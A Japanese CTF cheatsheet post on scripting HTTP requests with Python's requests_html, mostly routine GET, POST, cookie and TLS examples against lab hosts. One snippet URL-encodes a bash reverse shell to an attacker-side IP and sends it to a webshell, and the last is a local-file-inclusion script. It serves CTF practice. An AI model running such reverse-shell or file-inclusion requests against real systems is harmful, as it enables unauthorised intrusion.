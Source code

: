 ```yaml
---
layout: post
title: HTTP通信の自動化(python/requests_html)
published : true
tags: CTF Common cheatsheet python requests_html
---
```

## 基本
```python
from requests_html import HTMLSession

s = HTMLSession()
```

## GET
```python
url = 'http://10.10.11.116/'

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```

## POST
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, data=data)
```

## POST(JSON)
```python
url = 'http://10.10.11.116/'

data = {"username":"admin","password":"adm123"}
r = s.post(url, json=data)
```

## Cookie
### 取得
```python
print(s.cookies)
```

### 送信
```python
url = "http://10.10.11.139:5000/"

session.cookies.set('auth', 'some_cookie')

r = session.get(url)
```

## TLS証明書の検証をしない
verify=False
```python
url = 'https://store.nunchucks.htb/api/submit'
r = session.post(url, verify=False, json=data)
```

## DataのURL encode
```python
import urllib.parse

cmd = 'bash -c "bash -i >& /dev/tcp/10.10.14.14/7777 0>&1"'
cmd = urllib.parse.quote(cmd)
url = f'http://10.10.11.116/webshell.php?cmd={cmd}'

r = s.get(url)
```

## 例
LFI用。コマンドライン引数にファイル名を入力する。
```python
import sys
from requests_html import HTMLSession

s = HTMLSession()

url = f'http://10.10.10.194/news.php?file={sys.argv[1]}'
print(f'url: {url}')

r = s.get(url)

print(r.text) # htmlを表示
print(r.html.text) # inner textのみ表示
```